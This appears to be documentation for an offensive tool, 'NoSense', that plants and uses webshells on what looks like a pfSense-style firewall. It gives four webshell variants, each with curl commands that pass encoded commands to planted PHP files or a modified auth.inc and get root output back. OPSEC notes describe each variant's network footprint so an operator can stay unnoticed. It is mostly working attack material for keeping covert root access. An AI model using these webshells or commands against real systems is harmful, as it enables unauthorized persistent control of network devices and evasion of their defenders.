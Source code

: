 # Option 2: Access WebShell

- Doesn't require credentials to execute commands once uploaded.

## Skidy:
Enabled through option `1` at the main menu then select `Skidy`.

Manual:
```bash
$ curl http://192.168.1 90.190/shell.php?cmd=id 

<pre>uid=0(root) gid=0(wheel) groups=0(wheel)
</pre> 
```
Through NoSense:
```bash
Pick One: 
(1) Skidy
(2) Amatuer
(3) Pro
(4) Leet
-> 1
$: id
uid=0(root) gid=0(wheel) groups=0(wheel)
```
### OPSEC:
1 request sent:
- 1 GET request sent to `/shell.php` this contains a `cmd` variable in the URL.

---
## Amatuer:
Enabled through option `1` at the main menu then select `Amatuer`.

Manual:
```bash
$ curl 192.168.190.190/vpn_l2tp_admin.php?c=aWQK

<pre>uid=0(root) gid=0(wheel) groups=0(wheel)
</pre>  
```
Through NoSense:
```bash
Pick One: 
(1) Skidy
(2) Amatuer
(3) Pro
(4) Leet
-> 2
$: id
uid=0(root) gid=0(wheel) groups=0(wheel)
```
### OPSEC:
1 request sent:
- 1 GET request sent to `/vpn_l2tp_admin.php` this contains a `c` variable in the URL.
---
## Pro:
Enabled through option `1` at the main menu then select `Pro`.

Manual:
```bash
curl -i -s -k -X $'POST' -H $'Host: 192.168.190.190' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 15' --data-binary $'settings=aWQ%3D' $'http://192.168.190.190/system_firewall_manager.php'
```
Through NoSense:
```bash
Pick One: 
(1) Skidy
(2) Amatuer
(3) Pro
(4) Leet
-> 3
$: id
uid=0(root) gid=0(wheel) groups=0(wheel)
```
### OPSEC:
1 request sent:
- 1 POST request sent to `/system_firewall_manager.php` this contains a `settings` variable in the POST data.
---

## Leet:
Enabled through option `10` at the main menu.

`auth.inc` is altered to adjust the functionality of root `/` allowing for a webshell to be created. This takes a POST request and reads the `logindata` of the request. This will be an encoded command.

Manual:

Would not advise doing manually due to CSRF tokens etc.

Through NoSense:
```bash
Pick One: 
(1) Skidy
(2) Amatuer
(3) Pro
(4) Leet
-> 4
$: id
uid=0(root) gid=0(wheel) groups=0(wheel)
```


### OPSEC:
- 1 GET request to root `/` (this is to obtain the PHPSESSID and csrfMagicToken)
- 1 POST request to root `/` with csrfMagicToken and `logindata` as variables in the POST data.